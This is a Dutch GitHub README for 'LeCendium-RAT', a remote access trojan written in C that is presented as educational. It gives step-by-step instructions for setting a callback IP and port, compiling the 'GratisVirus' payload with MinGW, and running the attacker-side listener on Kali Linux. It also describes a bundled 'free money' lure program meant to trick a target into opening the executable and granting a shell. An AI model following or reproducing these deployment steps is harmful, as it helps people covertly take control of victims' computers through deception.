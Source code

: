 # LeCendium-RAT
- Deze RAT (Remote Administration Tool) is gemaakt voor educatieve doeleinden.

### Beschrijving
LeCendium zichzelf is gemaakt in C. Het bijgeleverde 'Gratis Geld' programma, is maar een eenvoudig voorbeeld hoe je deze RAT kan inzetten.
Het 'Gratis Geld' programma is gemaakt in C#. Ook hier zijn de code bestanden van beschikbaar.

### Vereisten voor gebruik
- Notepad++ of een IDE.
- MinGW
- Windows 7+ met administrator rechten.

### Editen naar persoonlijke voorkeuren
- Voor het editen naar persoonlijke voorkeuren, heb je de bovenstaande vereisten nodig.

- Open GratisVirus.c met jouw IDE (Sublime Text, Atom, etc)
- Verander de volgende 2 regels naar jouw ServerIP en Port voor connectie.
- Regel 143: ` ServIP = "192.168.198.130";`
- Regel 144: ` ServPort = 4444;`
- Stop de GratisVirus.c file in de bin directory van mingw32.

- Wanneer je klaar bent met het editen van deze gegevens, op je CMD (ALS ADMINISTRATOR)
- Change Directory naar de bin van MinGW. (` cd C:\Program Files (x86)\mingw-w64\i686-8.1.0-posix-dwarf-rt_v6-rev0\mingw32\bin`
- Voer in CMD het volgende in : ` gcc GratisVirus.c naamvanexebestand -lwininet -lwsock32` (Dit maakt een .exe bestand van de .c file)
De gebruiker of (target), zal dit .exe bestand moeten openen om een shellsessie te creëren.

### Gebruik maken van LeCendium
- Open jouw Linux distributie. (Kali Linux wordt in de video gebruikt).
- Open de Teriminal
- Clone de files van deze repository : `$ git clone https://github.com/1ncendium/LeCendium-RAT.git`
- Change directory naar LeCendium-RAT/ `cd LeCendium-RAT`
- Export de C file: `gcc LeCendium.c -o LeCendium`
- Run LeCendium `./LeCendium`

#### Note:
Wanneer je de exe file aanpast van GratisVirus.exe naar jouw eigen naam.exe, en het meegeleverde GratisGeld programma hierbij wilt gebruiken, moet je het GratisGeld programma wijzigen. Dit doe je met Visual Studio.

- Verander in het bestand 'GeldProgramma/FreeSpyWare2019/Form1.cs' regel 34 aan:
- ` string file = @"GeldVirus.exe";` Naar jouw bestandsnaam.exe.
